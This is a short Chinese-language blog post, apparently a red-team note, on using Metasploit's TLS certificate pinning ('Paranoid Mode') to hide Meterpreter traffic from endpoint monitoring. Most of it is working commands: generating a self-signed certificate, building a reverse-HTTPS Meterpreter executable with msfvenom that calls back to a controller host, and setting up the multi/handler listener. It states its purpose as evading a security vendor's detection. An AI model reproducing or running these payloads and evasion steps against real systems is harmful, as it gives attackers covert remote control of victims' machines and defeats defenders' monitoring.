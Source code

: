```yaml
---
title: MSF TLS pinning
author: Admin
date: 2020-05-01 14:01:00 +0800
categories: [RAT, MSF]
tags: [流量加密, MSF, 免杀]
---
```


# 开宗明义

利用证书锁定过掉流量监控，例如赛某的端点防护。

rapid7官方将之称为```Paranoid Mode(偏执模式)```，相关wiki：[github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode)

# 创建证书

```shell
openssl req -new -newkey rsa:4096 -days 36500 -nodes -x509 -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" -keyout cert.key -out cert.crt
cat cert.key  cert.crt > cert.pem
rm -f cert.key  cert.crt
```

其中```www.example.com```为回连域名或IP

# 生成payload

```shell
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./cert.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f exe -o ./launch-paranoid.exe
```

支持的payload:

|  Staged (payload.bat\|ps1\|txt\|exe):   |
|  :----  |
| windows/meterpreter/reverse_winhttps  |
| windows/meterpreter/reverse_https  |
| windows/x64/meterpreter/reverse_https  |

|  Stageless (binary.exe):   |
|  :----  |
| windows/meterpreter_reverse_https  |
| windows/x64/meterpreter_reverse_https  |


# 设置监听

```shell
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_winhttps
set LHOST www.example.com
set LPORT 443
set HandlerSSLCert ./cert.pem
set IgnoreUnknownPayloads true
set StagerVerifySSLCert true
set exitonsession false
run -j -z
```

# 在MacOS上的tips

使用完msfconsole后，会有残留进程，建议运行```msfdb stop```结束。